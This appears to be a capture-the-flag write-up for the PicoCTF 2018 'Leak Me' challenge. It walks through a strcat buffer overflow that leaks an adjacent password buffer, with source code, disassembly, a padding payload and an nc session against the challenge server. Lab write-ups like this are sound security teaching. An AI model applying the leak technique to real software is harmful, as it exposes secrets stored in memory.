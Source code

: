 ```yaml
---
title:  PicoCTF 2018 - Leak Me
description: It's still a buffer overflow, but it won't crash and it won't execute code. How will you trick it into revealing its secrets?
hide_index: true
image:
  path: /img/reference/pico-ctf-2018-00000.png
  width: 1024
  height: 512
  thumb: /img/reference/pico-ctf-2018-00000.thumb.png
  alt: Linux Terminal
---
```


# PicoCTF 2018 - Leak Me

> **Note**: This article is part of our [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}).

## Spot the Bug

Spotting this one is trickier. I originally solved this challenge several months ago, but while putting this guide together I attempted to look ahead to this problem and "spot the bug" (with only access to the source code on my phone). I'm ashamed to admit that it was almost an hour of me staring at the thing before I had a good idea what the problem was and how it could be exploited. How long does it take you?

```c
char password[64]; // &[ebp-0x54]
char name[256]; // &[ebp-0x154]
char password_input[64]; // &[ebp-0x194]

memset(password, 0, sizeof(password));
memset(name, 0, sizeof(name));
memset(password_input, 0, sizeof(password_input));

printf("What is your name?\n");

fgets(name, sizeof(name), stdin);
char *end = strchr(name, '\n');
if (end != NULL) {
  *end = '\x00';
}

strcat(name, ",\nPlease Enter the Password.");

file = fopen("password.txt", "r");
if (file == NULL) {
  printf("Password File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
  exit(0);
}

fgets(password, sizeof(password), file);

printf("Hello ");
puts(name);

fgets(password_input, sizeof(password_input), stdin);
password_input[sizeof(password_input)] = '\x00';

if (!strcmp(password_input, password)) {
  flag();
}
else {
  printf("Incorrect Password!\n");
}
```

Let's go over the steps:

1. Memory for `password`, `name`, and `password_input` is allocated and initialized on the stack.
2. You are prompted for your name (saved in `name`)
3. The file "password.txt" is opened, and read into the `password` variable
4. You are prompted for a password (saved in `password_input`)
5. If your password (`password_input`) matches the password in the file (`password`), then the flag is printed.

First off, we notice that the prompts for `name` and `password` both use `fgets()`, which is considered safe. `fgets` will read up to `size-1` bytes (or the first newline), and will always add a tailing null byte. There is also a call to `printf`, which could be used unsafely, but is fine in this case. Similarly, there are no problems with the calls to `strchr`, `fopen`, `puts`, or `strcmp` in this program.

The conclusion we reach is that the only thing it could be is the call to `strcat` (which is used to concatenate two strings together into one string, using the underlying memory of the first string).

```c
fgets(name, sizeof(name), stdin); // read up to size-1 bytes
// ...
strcat(name, ",\nPlease Enter the Password."); // add 28 characters + null to end of name
// ...
fgets(password, sizeof(password), file); // read the password into password
// ...
printf("Hello ");
puts(name);
```

## Strategy

The strategy, as the name of the challenge suggests, is to "leak" the password before we are required to enter it. We can do this because of the exact memory layout of the stack (we'll go over it in a minute, but it's important to note that this layout is specific to this version of compiler, in general the order of `password`, `name` and `password_input` on the stack isn't well specified). We can also do this because `puts` will continue to output chars until it hits the first null, and knows nothing about the size of memory block associated with `name`.

*If you know what you're doing already, you can attempt the problem by connecting to 2018shell.picoctf.com on port 38315 right now.*

## Background Info

Just like [last time]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits/buffer-overflow-1.md %}), let's peak into the assembly and see what memory layout the compiler chose for our stack variables using `objdump -M intel -S ./auth`:

```nasm
sub    esp,0x4 ; align
push   0x40 ; 0x40 = 64 = sizeof(password)
push   0x0
lea    eax,[ebp-0x54] ; &password
push   eax
call   8048530 <memset@plt> ; memset(password, 0, sizeof(password));
add    esp,0x10

sub    esp,0x4 ; align
push   0x100 ; 0x100 = 256 = sizeof(name)
push   0x0
lea    eax,[ebp-0x154] ; &name
push   eax
call   8048530 <memset@plt> ; memset(name, 0, sizeof(name));
add    esp,0x10

sub    esp,0x4 ; align
push   0x40 ; 0x40 = 64 = sizeof(password_input)
push   0x0
lea    eax,[ebp-0x194] ; &password_input
push   eax
call   8048530 <memset@plt> ; memset(password_input, 0, sizeof(password_input));
add    esp,0x10
```

> **NOTE**: Take a second and observe that the arguments to `memset` are pushed on the stack in the "reverse" order. So, `sizeof(password)` is pushed first, then `0`, then the address of `password`. This may seem odd, but if you consider how the stack works, it means that `&password` is actually first in memory, followed by `0`, and then `sizeof(password)`, which is the order we expect. **Keep this in mind for later challenges**.

Therefore the memory layout for the local variables of our function looks something like this:

| lower addresses | &rArr; | &rArr; | &rArr; | &rArr; | &rArr; | higher addresses |
| --- | :---: | :---: | :---: | :---: | :---: | --- |
| `[esp]` | &lt; temp &gt; | `[ebp-0x194]` | `[ebp-0x154]` | `[ebp-0x54]` | &lt; other &gt; | `[ebp]` |
| | | `password_input`<br/>`[64]` | `name`<br/>`[256]` | `password`<br/>`[64]` | | |

Basically, the `password` variable directly follows the `name` variable in memory. If the string in `name` is long enough to spill into the memory for `password`, then when we read from "password.txt" we will actually write "into" the name string, and the password itself will be written to stdout when `puts(name)` is called.

## Exploitation

How long should our name be? Anything long enough should work, but it'll be easier to read if there is a clear delimiter. If the name is exactly 228 bytes (excluding newline), then appending 28 bytes will completely fill the `name` buffer, and the tailing null byte will end up as the first byte of the `password` variable. That byte will then be overwritten when the `password` is loaded. When the `name` string is printed out, the password will be all the characters following the `'.'` at the end of the prompt.

Here's 228 "U"s for you to copy-paste, as generated by `python3 -c 'print("U"*228)'`
```
UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU
```

**NOTE**: this challenge requires to connect to a specific port on the server. To do this, you can install the netcat package on most linux distros and on windows. You could also connect to the port using `pwntools` or similar. `netcat` is already installed on the shell server.

```
$ nc 2018shell.picoctf.com 38315
What is your name?
UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU
Hello UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU,
Please Enter the Password.a_reAllY_s3cuRe_p4s$word_f85406

a_reAllY_s3cuRe_p4s$word_f85406
picoCTF{===REDACTED===}
```
{:.contains-term}

When prompted, enter 228 characters and then press enter. It will then reply "Hello <228 chars>, Please Enter the Password.`<password>`" where the actual password will be printed out after the `'.'`. You then copy-paste the password and hit enter, at which point it will print the flag for you. In my case, the password was "a_reAllY_s3cuRe_p4s$word_f85406".

Now that you've solved **Leak Me**, head back to the  [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}) to continue with the next challenge.